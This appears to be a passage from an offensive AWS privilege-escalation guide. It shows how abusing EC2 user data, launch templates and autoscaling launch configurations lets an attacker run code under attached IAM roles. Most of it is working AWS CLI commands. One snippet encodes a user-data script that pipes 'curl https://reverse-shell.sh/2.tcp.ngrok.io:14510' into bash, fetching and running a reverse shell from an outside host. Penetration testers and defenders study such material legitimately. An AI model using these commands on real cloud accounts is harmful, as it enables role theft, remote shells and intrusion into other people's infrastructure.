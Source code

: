 ```bash
printf $TEXT | base64 > "$TEXT_PATH"

aws ec2 stop-instances --instance-ids $INSTANCE_ID

aws ec2 modify-instance-attribute \
    --instance-id="$INSTANCE_ID" \
    --attribute userData \
    --value file://$TEXT_PATH

aws ec2 start-instances --instance-ids $INSTANCE_ID
```

**Potential Impact:** Direct privesc to any EC2 IAM Role attached to a created instance.

### `ec2:CreateLaunchTemplateVersion`,`ec2:CreateLaunchTemplate`,`ec2:ModifyLaunchTemplate`

An attacker with the permissions **`ec2:CreateLaunchTemplateVersion`,`ec2:CreateLaunchTemplate`and `ec2:ModifyLaunchTemplate`** can create a **new Launch Template version** with a **rev shell in** the **user data** and **any EC2 IAM Role on it**, change the default version, and **any Autoscaler group** **using** that **Launch Templat**e that is **configured** to use the **latest** or the **default version** will **re-run the instances** using that template and will execute the rev shell.

{% code overflow="wrap" %}
```bash
REV=$(printf '#!/bin/bash
curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash
' | base64)

aws ec2 create-launch-template-version \
   --launch-template-name bad_template \
   --launch-template-data "{\"ImageId\": \"ami-0c1bc246476a5572b\", \"InstanceType\": \"t3.micro\", \"IamInstanceProfile\": {\"Name\": \"ecsInstanceRole\"}, \"UserData\": \"$REV\"}"

aws ec2 modify-launch-template \
   --launch-template-name bad_template \
   --default-version 2
```
{% endcode %}

**Potential Impact:** Direct privesc to a different EC2 role.

### `autoscaling:CreateLaunchConfiguration`, `autoscaling:CreateAutoScalingGroup`, `iam:PassRole`

An attacker with the permissions **`autoscaling:CreateLaunchConfiguration`,`autoscaling:CreateAutoScalingGroup`,`iam:PassRole`** can **create a Launch Configuration** with an **IAM Role** and a **rev shell** inside the **user data**, then **create an autoscaling group** from that config and wait for the rev shell to **steal the IAM Role**.

```bash
aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-launch-configuration \
   --launch-configuration-name bad_config \
   --image-id ami-0c1bc246476a5572b \
   --instance-type t3.micro \
   --iam-instance-profile EC2-CloudWatch-Agent-Role \
   --user-data "$REV"

aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-auto-scaling-group \
   --auto-scaling-group-name bad_auto \
   --min-size 1 --max-size 1 \
   --launch-configuration-name bad_config \
   --desired-capacity 1 \
   --vpc-zone-identifier "subnet-e282f9b8"
```
